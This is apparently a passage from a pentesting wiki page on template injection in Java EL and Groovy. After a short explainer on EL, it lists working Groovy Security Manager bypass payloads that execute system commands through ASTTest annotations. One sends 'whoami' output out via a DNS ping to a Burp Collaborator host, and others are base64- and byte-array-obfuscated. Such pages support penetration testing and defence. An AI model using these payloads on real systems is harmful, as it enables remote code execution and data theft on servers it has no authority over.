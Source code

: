 ```
Expression Language (EL) is a fundamental feature that facilitates interaction between the presentation layer (like web pages) and the application logic (like managed beans) in JavaEE. It's used extensively across multiple JavaEE technologies to streamline this communication. The key JavaEE technologies utilizing EL include:

- **JavaServer Faces (JSF)**: Employs EL to bind components in JSF pages to the corresponding backend data and actions.
- **JavaServer Pages (JSP)**: EL is used in JSP for accessing and manipulating data within JSP pages, making it easier to connect page elements to the application data.
- **Contexts and Dependency Injection for Java EE (CDI)**: EL integrates with CDI to allow seamless interaction between the web layer and managed beans, ensuring a more coherent application structure.

Check the following page to learn more about the **exploitation of EL interpreters**:

[[el-expression-language.md]]

### Groovy (Java)

The following Security Manager bypasses were taken from this [[https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/|**writeup**]].

```java
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
    cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
    assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
    cmd = "whoami";
    out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
    cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
    java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
```
### Other Java

![[../../images/image (7).png|]]

*[[https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NHgR25-CMICMhPOaIJzqwQ.jpeg|https://miro.medium.com/v2/resize:fit:1100/format:webp/1\*NHgR25\-CMICMhPOaIJzqwQ.jpeg]]*


```